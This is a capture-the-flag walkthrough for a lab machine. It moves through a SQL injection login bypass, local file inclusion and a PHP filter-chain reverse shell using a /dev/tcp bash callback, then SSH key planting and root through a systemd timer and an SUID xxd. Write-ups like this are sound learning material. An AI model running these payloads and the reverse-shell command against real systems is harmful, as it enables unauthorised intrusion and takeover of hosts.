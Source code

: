 ```yaml
---
sticker: emoji//1f9c0
---
```


![](images/Pasted%20image%2020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](images/Pasted%20image%2020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](images/Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](images/Pasted%20image%2020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](images/Pasted%20image%2020240927154349.png)

Let's visit it:

![](images/Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](images/Pasted%20image%2020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](images/Pasted%20image%2020240927160128.png)


![](images/Pasted%20image%2020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](images/Pasted%20image%2020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](images/Pasted%20image%2020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](images/Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](images/Pasted%20image%2020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](images/Pasted%20image%2020240927161025.png)
![](images/Pasted%20image%2020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](images/Pasted%20image%2020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](images/Pasted%20image%2020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](images/Pasted%20image%2020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](images/Pasted%20image%2020240927161803.png)
![](images/Pasted%20image%2020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](images/Pasted%20image%2020240927162104.png)

![](images/Pasted%20image%2020240927162740.png)
Now, i got root authorized key access:

![](images/Pasted%20image%2020240927162817.png)
just like that, machine is done:

![](images/Pasted%20image%2020240927162856.png)


